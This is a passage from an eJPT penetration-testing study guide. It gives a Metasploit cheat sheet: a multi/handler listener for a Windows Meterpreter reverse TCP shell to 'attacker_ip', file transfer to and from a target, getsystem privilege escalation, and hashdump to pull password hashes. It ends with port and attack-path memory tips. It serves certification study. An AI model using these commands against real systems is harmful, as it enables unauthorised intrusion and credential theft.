 #### **Multi-Handler:**
```bash
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST attacker_ip
set LPORT 4444
exploit
```

#### **File Transfer:**
```bash
upload local_file remote_path       # Upload to target
download remote_file local_path     # Download from target
```

#### **Privilege Escalation:**
```bash
getuid                              # Check current user
getsystem                           # Automatic escalation
# If getsystem fails, use UAC bypass tools
```

#### **Post-Exploitation:**
```bash
sysinfo                             # System information
ps                                  # Process list
migrate PID                         # Process migration
hashdump                            # Extract password hashes
```

### **Memory Tricks for eJPT:**

#### **Remember the Flow:**
**DISCOVER → RESEARCH → EXPLOIT → ESCALATE → EXTRACT**

#### **Port Numbers to Remember:**
- **80/443** - HTTP/HTTPS (web servers)
- **21** - FTP (file transfer)
- **22** - SSH (secure shell)
- **23** - Telnet (insecure remote access)
- **139/445** - SMB (Windows file sharing)
- **3389** - RDP (Remote Desktop)

#### **Common Exploit Paths:**
- **Web Servers** → Often have public exploits
- **FTP Services** → Check for anonymous access
- **SSH Services** → Try password attacks
- **SMB Services** → Look for null sessions
- **RDP Services** → Brute force credentials

---

## Final Study Tips for eJPT Success
